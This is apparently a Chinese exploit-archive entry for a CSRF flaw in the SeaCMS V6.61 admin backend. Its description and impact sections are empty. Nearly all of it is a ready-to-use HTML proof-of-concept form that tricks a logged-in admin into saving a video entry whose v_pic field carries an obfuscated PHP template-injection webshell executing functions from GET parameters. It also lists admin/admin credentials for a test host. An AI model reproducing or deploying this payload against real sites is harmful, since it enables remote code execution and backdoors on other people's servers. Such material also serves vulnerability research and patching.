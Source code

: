 Seacms V6.61 后台csrf
=====================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`http://www.0-sec.org:10089/backend/`，用户名和密码为admin \| admin

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <!-- adjust action to your url -->
        <form action="http://www.0-sec.org/seacms/backend/admin_video.php?action=save&acttype=add" method="POST">
          <input type="hidden" name="v_commend" value="0" />
          <input type="hidden" name="v_name" value="getshell" />
          <input type="hidden" name="v_enname" value="ceshi" />
          <input type="hidden" name="v_color" value="#FF0000" />
          <input type="hidden" name="v_type" value="5" />
          <input type="hidden" name="v_state" value="5" />
          <input type="hidden" name="v_pic" value="{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}" />
          <input type="hidden" name="v_spic" value="" />
          <input type="hidden" name="v_gpic" value="" />
          <input type="hidden" name="v_actor" value="" />
          <input type="hidden" name="v_director" value="" />
          <input type="hidden" name="v_commend" value="0" />
          <input type="hidden" name="v_note" value="" />
          <input type="hidden" name="v_tags" value="" />
          <input type="hidden" name="select3" value="" />
          <input type="hidden" name="v_publishyear" value="" />
          <input type="hidden" name="select2" value="" />
          <input type="hidden" name="v_lang" value="" />
          <input type="hidden" name="select1" value="" />
          <input type="hidden" name="v_publisharea" value="" />
          <input type="hidden" name="select4" value="" />
          <input type="hidden" name="v_ver" value="" />
          <input type="hidden" name="v_hit" value="0" />
          <input type="hidden" name="v_monthhit" value="0" />
          <input type="hidden" name="v_weekhit" value="0" />
          <input type="hidden" name="v_dayhit" value="0" />
          <input type="hidden" name="v_len" value="" />
          <input type="hidden" name="v_total" value="" />
          <input type="hidden" name="v_nickname" value="" />
          <input type="hidden" name="v_company" value="" />
          <input type="hidden" name="v_tvs" value="" />
          <input type="hidden" name="v_douban" value="" />
          <input type="hidden" name="v_mtime" value="" />
          <input type="hidden" name="v_imdb" value="" />
          <input type="hidden" name="v_score" value="" />
          <input type="hidden" name="v_scorenum" value="" />
          <input type="hidden" name="v_longtxt" value="" />
          <input type="hidden" name="v_money" value="0" />
          <input type="hidden" name="v_psd" value="" />
          <input type="hidden" name="v_playfrom[1]" value="" />
          <input type="hidden" name="v_playurl[1]" value="" />
          <input type="hidden" name="m_downfrom[1]" value="" />
          <input type="hidden" name="m_downurl[1]" value="" />
          <input type="hidden" name="v_content" value="" />
          <input type="hidden" name="Submit" value="�¡®�®š�浜¤" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
